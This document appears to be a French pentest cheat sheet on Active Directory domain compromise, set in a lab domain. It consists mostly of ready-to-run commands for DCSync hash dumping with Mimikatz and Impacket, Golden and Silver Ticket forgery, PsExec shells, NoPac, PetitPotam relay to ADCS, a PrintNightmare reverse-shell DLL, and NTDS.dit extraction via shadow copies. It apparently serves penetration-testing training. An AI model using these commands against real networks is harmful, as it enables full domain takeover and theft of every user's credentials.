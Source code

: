 # Compromission de Domaine
## Attaque DCSync
L'attaque DCSync imite un contrôleur de domaine pour demander les secrets d'utilisateurs via la réplication.
### Prérequis
Cette attaque nécessite que l'attaquant dispose des droits suivants:
- Replicating Directory Changes
- Replicating Directory Changes All
- Replicating Directory Changes in Filtered Set
### Exécution avec Mimikatz
```powershell
# Extraire le hash NTLM de l'administrateur de domaine
lsadump::dcsync /domain:inlanefreight.local /user:Administrator

# Extraire les hashes de tous les utilisateurs du domaine
lsadump::dcsync /domain:inlanefreight.local /all /csv
```
### Exécution avec Impacket
```bash
# Extraction des hashes pour un utilisateur spécifique
secretsdump.py -just-dc-user Administrator inlanefreight.local/user:password@dc.inlanefreight.local

# Extraction de tous les hashes avec plus d'options de sécurité
secretsdump.py -just-dc -outputfile hashes INLANEFREIGHT/adunn@172.16.5.5 -debug

# Version avec hash NTLM au lieu d'un mot de passe
secretsdump.py -just-dc -hashes :NTLM_HASH INLANEFREIGHT/adunn@172.16.5.5
```
## Attaques avec Golden Ticket
Un Golden Ticket est un TGT forgé qui donne un accès illimité à toutes les ressources du domaine.
### Création avec Mimikatz
```powershell
# Récupérer le hash NTLM du compte krbtgt
lsadump::dcsync /domain:inlanefreight.local /user:krbtgt

# Créer un Golden Ticket
kerberos::golden /domain:inlanefreight.local /sid:S-1-5-21-X-Y-Z /rc4:HASH_OF_KRBTGT /user:FakeAdmin /id:500 /ptt

# Vérifier le ticket
klist
```
### Exploitation
```powershell
# Accéder au partage SYSVOL du contrôleur de domaine
dir \\dc.inlanefreight.local\SYSVOL

# Exécuter psexec pour obtenir un shell
.\PsExec.exe \\dc.inlanefreight.local cmd.exe
```
## Attaques avec Silver Ticket
Un Silver Ticket est un TGS forgé qui donne accès à un service spécifique.

```powershell
# Créer un Silver Ticket pour le service CIFS
kerberos::golden /domain:inlanefreight.local /sid:S-1-5-21-X-Y-Z /rc4:HASH_OF_COMPUTER_ACCOUNT /user:FakeAdmin /service:cifs /target:server.inlanefreight.local /ptt

# Accéder au partage
dir \\server.inlanefreight.local\C$
```
## Exploitation de Vulnérabilités Critiques
### NoPac (SamAccountName Spoofing)

```bash
# Scanner pour la vulnérabilité
python3 scanner.py inlanefreight.local/user:password -dc-ip 10.10.10.10 -use-ldap

# Exploiter pour obtenir un TGT administrateur
python3 noPac.py inlanefreight.local/user:password -dc-ip 10.10.10.10 -dc-host dc01 -shell --impersonate administrator
```
### PetitPotam (NTLM Relay vers ADCS)

```bash
# Configurer le relais NTLM
sudo ntlmrelayx.py -t http://ca.inlanefreight.local/certsrv/certfnsh.asp --adcs --template DomainController

# Déclencher l'authentification
python3 PetitPotam.py attacker.ip dc.inlanefreight.local
```
### PrintNightmare

```powershell
# Exploitation de PrintNightmare
Import-Module .\CVE-2021-34527.ps1
Invoke-Nightmare -DLL "C:\Path\to\reverse.dll"
```
## Shadow Copies pour extraction de NTDS.dit
```powershell
# Créer une copie shadow du volume C:
vshadow.exe -nw -p C:

# Copier la base NTDS.dit
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\windows\ntds\ntds.dit C:\temp\ntds.dit.bak

# Exporter la clé SYSTEM
reg.exe save hklm\system C:\temp\system.bak

# Extraire les hashes (sur Kali)
impacket-secretsdump -ntds ntds.dit.bak -system system.bak LOCAL
```
## Points Clés

- Les attaques de compromission de domaine sont extrêmement puissantes
- Elles permettent de prendre le contrôle total de l'environnement AD
- Nettoyez les artefacts après avoir démontré la vulnérabilité
- Ces techniques doivent être utilisées avec extrême prudence dans un engagement réel
- Documentez précisément les preuves de concept et les risques associés

# Précision sur les SID pour Golden Ticket

Dans la section sur les Golden Tickets, ajouter comment récupérer le SID du domaine:

```powershell
# Obtenir le SID du domaine pour créer un Golden Ticket
Get-DomainSID
# ou
whoami /user
# Prenez les premiers chiffres du SID affiché jusqu'à l'avant-dernier tiret
```